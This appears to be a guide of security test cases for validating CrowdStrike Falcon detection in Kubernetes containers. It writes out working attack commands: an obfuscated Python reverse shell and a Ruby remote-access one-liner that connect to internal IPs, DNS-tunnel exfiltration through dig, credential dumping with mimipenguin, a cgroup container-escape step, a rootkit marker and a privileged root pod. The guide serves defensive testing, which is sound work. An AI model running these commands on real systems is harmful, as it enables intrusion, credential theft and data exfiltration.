


# CrowdStrike Falcon Sensor Test Cases

## Overview

This guide provides a comprehensive set of test cases to validate CrowdStrike Falcon sensor capabilities in containerized environments. It includes various security scenarios designed to demonstrate detection and prevention capabilities against common attack patterns, malicious activities, and security policy violations.

### Purpose

- Validate Falcon sensor detection and prevention capabilities
- Test Kubernetes Admission Controller (KAC) policies
- Simulate real-world attack scenarios in a controlled environment
- Verify security controls for container environments

### Test Categories Covered

- Crypto Mining Detection
- Container Escape Attempts
- Data Collection and Exfiltration
- Command & Control (C2) Communication
- Container Drift Detection
- Defense Evasion Techniques
- Credential Access Attempts
- Persistence Mechanisms
- Malware Execution
- Container Security Policy Enforcement

### Prerequisites

- Kubernetes cluster
- CrowdStrike Falcon sensor installed
- Access to deploy test containers
- Kubernetes CLI (kubectl) configured

## Initial Setup

### Deploy Vulnapp

Source: https://github.com/CrowdStrike/vulnapp

```bash
kubectl apply -f  https://raw.githubusercontent.com/crowdstrike/vulnapp/main/vulnerable.example.yaml
```

### Example Accessing the Container

```powershell
kubectl exec -it vulnerable.example.com-f5bd579c-6h79r -- bash
```

## Test Scenarios

### 1. Crypto Mining Simulation

```bash
wget https://github.com/xmrig/xmrig/releases/download/v6.22.2/xmrig-6.22.2-msvc-win64.zip
```

**Expected Results:**


### 2. Container Escape Test

```bash
# Container Escape
mount -t cgroup -o memory cgroup /tmp/cgrp
```

**Expected Results:**


### 3. Collection and Data Gathering

```bash
#!/bin/bash
# Collection_via_Automated_Collection
echo -e "\e[92mExecuting Collection via Automated Collection script. Trying to dump information from etc/passwd"
sh -c "/bin/grep 'x:0:' /etc/passwd > /tmp/passwords"
```

**Expected Results:**


### 4. Command & Control Testing

#### 4.1 Obfuscated Python Script

```bash
#!/bin/bash
# Command_Control_via_Remote_Access-obfuscated
echo -e "\e[92mExecuting Command and Control via Remote Access Tools using obfuscated Python script. A Falcon Prevent action can kill the attempt"
python -c 'import base64;dec=base64.b64decode("aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4xNy4wLjIxIiw1NTU1KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItIl0pOw==");eval(compile(dec,"<string>","exec"))'
```

**Expected Results:**




#### 4.2 Ruby Remote Access

```bash
#!/bin/bash
# Command_Control_via_Remote_Access
echo -e "\e[92mExecuting Command and Control via Remote Access Tools using Ruby script. This script will try to connect to 192.168.1.222 and will exit at fork. A Falcon Prevent action can kill the attempt"
ruby -rsocket -e'exit if fork;s=TCPSocket.new("192.168.1.222",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```

**Expected Results:**



### 5. Container and System Security

#### 5.1 Container Drift Test

```bash
#!/bin/bash
# ContainerDrift_Via_File_Creation_and_Execution
echo -e "\e[92mExecuting Container Drift via file creation script. Creating a file and then executing it."
sh -c "rm -f /bin/id2 ; cp /bin/id /bin/id2; /bin/id2 > /dev/null"
```

**Manual Drift Trigger Example:**


**Expected Results:**


#### 5.2 Defense Evasion Test

```bash
#!/bin/bash
# Defense_Evasion_via_Rootkit
echo -e "\e[92mExecuting Defense Evasion via Rootkit.This script will change the group owner to '0' of /etc/ld.so.preload indicative for a Jynx Rootkit"
touch /etc/ld.so.preload
chgrp 0 /etc/ld.so.preload
```

**Expected Results:**


### 6. Execution and Access Testing

#### 6.1 Command-Line Interface Test

```bash
#!/bin/bash
# Execution_via_Command-Line_Interface
echo -e "\e[92mExecuting Execution via Command-Line Interface. This script is causing malicious activity related suspicious CLI commands"
sh -c whoami '[S];pwd;echo [E]'
```

**Expected Results:**


#### 6.2 Credential Access Test

```bash
#!/bin/bash
# Credential_Access_via_Credential_Dumping
echo -e "\e[92mExecuting Credential Access via Credential Dumping. This script is running mimipenguin trying to dump passwords from inside the container environment"
./bin/mimipenguin/mimipenguin.sh
```

**Expected Results:**


### 7. Data Exfiltration Test

```bash
#!/bin/bash
# Exfiltration_via_Exfiltration_Over_Alternative_Protocol
echo -e "\e[92mExecuting Exfiltration Over Alternative Protocol using a DNS tool sendng requests to large domain names. This will take a moment to execute..."

cd /tmp
touch {1..7}.tmp
zip -qm - *tmp|xxd -p >data
for dat in `cat data `; do dig $dat.legit.term01-b-449152202.us-west-1.elb.amazonaws.com; done > /dev/null 2>&1
rm data
```

**Expected Results:**


### 8. Persistence Testing

```bash
#!/bin/sh
# Persistence_via_External_Remote_Services
echo -e "\e[92mExecuting Persistence via External Remote Services via Python script. This script will try creating presistance to 192.168.1.222. A Falcon Prevent action can kill the attempt"
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.21",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-"]);'
```

**Expected Results:**


### 9. Malware Simulation

```bash
#!/bin/sh
# Reverse_Shell_Trojan
echo -e "\e[92mExecuting an inert trojan that will attempt to connect to 192.168.0.1 on TCP port 444. This will be detected and killed by CrowdStrike's on-sensor machine learning with the aggressive policy settings enabled."

./bin/evil/sample
```

**Expected Results:**


## KAC Testing

### Container Root Access Test

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: ubuntu-root
spec:
  replicas: 1
  selector:
    matchLabels:
      app: ubuntu-root
  template:
    metadata:
      labels:
        app: ubuntu-root
    spec:
      containers:
      - name: ubuntu-root
        image: ubuntu:latest
        command: ["/bin/bash"]
        args: ["-c", "while true; do sleep 30; done"]
        securityContext:
          privileged: true
          runAsUser: 0
          runAsGroup: 0
          allowPrivilegeEscalation: true
        resources:
          limits:
            memory: "512Mi"
            cpu: "500m"
```

### Deployment Command

```bash
kubectl apply -f https://raw.githubusercontent.com/mikedzikowski/cs-sensor-test/refs/heads/main/kactest.yaml
```

**Expected Results:**


